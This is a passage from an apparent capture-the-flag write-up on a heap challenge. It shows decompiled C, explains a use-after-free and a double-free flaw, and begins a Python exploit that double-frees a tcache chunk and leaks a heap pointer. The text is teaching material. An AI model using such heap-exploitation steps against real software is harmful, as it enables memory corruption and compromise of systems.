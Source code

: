 
It does not null the buffer after freed, leading to `UAF` and there is no check if the `chunk` is already `free`, leading to `double free`.

### view_details()

```c
000014ce  int64_t view_details()

000014ce  {
000014d6      void* fsbase;
000014d6      int64_t canary = *(uint64_t*)((char*)fsbase + 0x28);
0000150d      puts(&acc[((int64_t)check_id())]);
00001517      int64_t result = (canary ^ *(uint64_t*)((char*)fsbase + 0x28));
00001517      
00001520      if (result == 0)
00001528          return result;
00001528      
00001522      __stack_chk_fail();
00001522      /* no return */
000014ce  }
```

It just prints out the `acc[idx]` which is `acc[0]` always.

## Solution 

```python
transfer(0, 0x100)
for _ in range(2): free(0)
```

### Allocation

- A chunk of size `0x100` is allocated and assigned index `0`.

### Double Free

- The chunk at index 0 is freed twice in succession. This unusual action leads to a double free scenario, placing the same chunk address into the tcache freelist for size `0x110` (0x100 size plus metadata) twice.
- Normally, double free is prevented, but if the program does not check for it, this results in duplicate entries in the `tcache` bin for that chunk size.

### Leaking a Heap Pointer

```python
view(0)
leak = rl()
curr_chunk = u64(leak[:6].ljust(8, b'\x00'))
print(f'[*] Current chunk: {curr_chunk:#04x}')
```

### Show Freed Chunk
